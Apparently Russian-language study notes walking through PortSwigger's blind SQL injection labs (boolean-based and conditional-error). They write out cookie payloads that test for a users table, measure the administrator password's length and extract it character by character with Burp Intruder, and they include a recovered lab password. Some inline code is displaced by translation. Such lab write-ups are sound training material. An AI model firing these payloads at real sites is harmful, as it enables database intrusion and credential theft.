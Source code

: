 В бурпе изменим cookie  TrackingId=j6oKBZ3hNPucIvR3==' AND '1'='1== и увидим ответ "Welcome back". Если использовать ' AND '1'='2 то не увидим сообщение"Welcome back"
Проверим наличие таблицы users
```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT 'a' FROM users LIMIT 1)='a;```
Проверим наличие столбца администратор в таблице users  
```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT 'a' FROM users WHERE username='administrator')='a;```
Проверим длину пароля
```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH (password)>19)='a;``` , >20 уже не верно, значит длина пароля 20 символов
Используя intruder начнем перебор пароля ( выделяем последний символ "a"). Настраиваем нагрузку a-z 0-9,добавляем настройку Grep-Match "Welcome back". Запускаем
```TrackingId=j6oKBZ3hNPucIvR3' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§```
После получения ответа в столбце"Welcome back" изменяем запрос (password,2,1) и повторяем пока не получим весь пароль (password,20,1)
zej8bk0uarsvl8ce8mhm

Задача: Blind SQL injection with conditional errors https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

Если при запросе получаем ошибку в ответе - значит запрос верный ( данные существуют)
1. Посетите главную страницу магазина и используйте Burp Suite для перехвата и изменения запроса, содержащего файл cookie. Для простоты предположим, что исходное значение файла cookie равно . `TrackingId``TrackingId=xyz`
2. Измените файл cookie, добавив к нему одну кавычку: `TrackingId`
    
    `TrackingId=xyz'`
    
    Убедитесь, что получено сообщение об ошибке.
    
3. Теперь измените его на две кавычки: Убедитесь, что ошибка исчезла. Это говорит о том, что синтаксическая ошибка (в данном случае незакрытая кавычка) оказывает заметное влияние на ответ.`TrackingId=xyz''`
4. Теперь вам нужно подтвердить, что сервер интерпретирует внедрение как SQL-запрос, т.е. что ошибка является синтаксической ошибкой SQL, а не любой другой типом ошибки. Для этого сначала нужно создать подзапрос, используя валидный синтаксис SQL. Попробуйте отправить:
    
    `TrackingId=xyz'||(SELECT '')||'`
    
    В этом случае обратите внимание, что запрос по-прежнему выглядит недействительным. Это может быть связано с типом базы данных - попробуйте указать в запросе предсказуемое имя таблицы:
    
    `TrackingId=xyz'||(SELECT '' FROM dual)||'`
    
    Поскольку вы больше не получаете сообщение об ошибке, это указывает на то, что целевой объект, вероятно, использует базу данных Oracle, которая требует, чтобы во всех операторах явно указывалось имя таблицы. `SELECT`
    
5. Теперь, когда вы создали то, что кажется правильным запросом, попробуйте отправить неверный запрос, сохранив при этом действительный синтаксис SQL. Например, попробуйте запросить имя несуществующей таблицы:
    
    `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`
    
    На этот раз возвращается ошибка. Такое поведение явно указывает на то, что внедрение обрабатывается серверной частью как SQL-запрос.
    
6. Если вы всегда внедряете синтаксически корректные SQL-запросы, вы можете использовать этот ответ об ошибке для вывода ключевой информации о базе данных. Например, чтобы убедиться в существовании таблицы, отправьте следующий запрос: `users`
    
    `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
    
    Поскольку этот запрос не возвращает ошибку, можно сделать вывод, что эта таблица существует. Обратите внимание, что условие здесь важно, чтобы запрос не возвращал более одной строки, что нарушило бы нашу конкатенацию. `WHERE ROWNUM = 1`
```